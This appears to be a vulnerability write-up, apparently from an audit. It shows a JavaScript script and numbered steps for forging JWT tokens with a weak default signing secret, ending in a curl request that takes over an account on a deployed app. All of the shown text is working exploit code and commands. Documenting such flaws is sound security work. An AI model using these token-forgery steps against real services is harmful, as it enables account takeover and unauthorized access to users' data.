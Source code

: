 ```javascript
// Attacker's script to forge JWT tokens
const jwt = require('jsonwebtoken');

// Known weak secret from source code
const WEAK_SECRET = 'your-secret-key-change-in-production';

// Forge token for any user
const forgedToken = jwt.sign(
  { 
    userId: 1,           // Target user ID (can be enumerated)
    username: 'admin'    // Target username
  },
  WEAK_SECRET,
  { expiresIn: '24h' }
);

console.log('Forged Token:', forgedToken);

// Use this token in Authorization header:
// Authorization: Bearer [forgedToken]
```

**Exploitation Steps:**

1. **Reconnaissance:**
   ```bash
   # Attempt to find the JWT secret (not exposed in source code)
   # Attacker must guess or brute-force the secret
   # Common weak secrets to try: 'your-secret-key-change-in-production', 'secret', 'password', etc.
   ```

2. **Token Capture:**
   - Open browser DevTools (F12)
   - Network tab → Filter for API calls
   - Copy any `Authorization: Bearer [token]` header

3. **Token Decoding:**
   ```bash
   # Decode existing token (without verification)
   node -e "console.log(JSON.parse(Buffer.from('eyJhbGc...'.split('.')[1], 'base64').toString()))"
   ```

4. **Token Forgery:**
   ```bash
   # Install jwt-cli tool
   npm install -g jsonwebtoken-cli
   
   # Create forged token
   jwt sign '{\"userId\":1,\"username\":\"victim\"}' 'your-secret-key-change-in-production'
   ```

5. **Account Takeover:**
   ```bash
   curl -X GET \
     'https://[server-deployment].vercel.app/api/auth/user' \
     -H 'Authorization: Bearer [FORGED_TOKEN]'
   ```
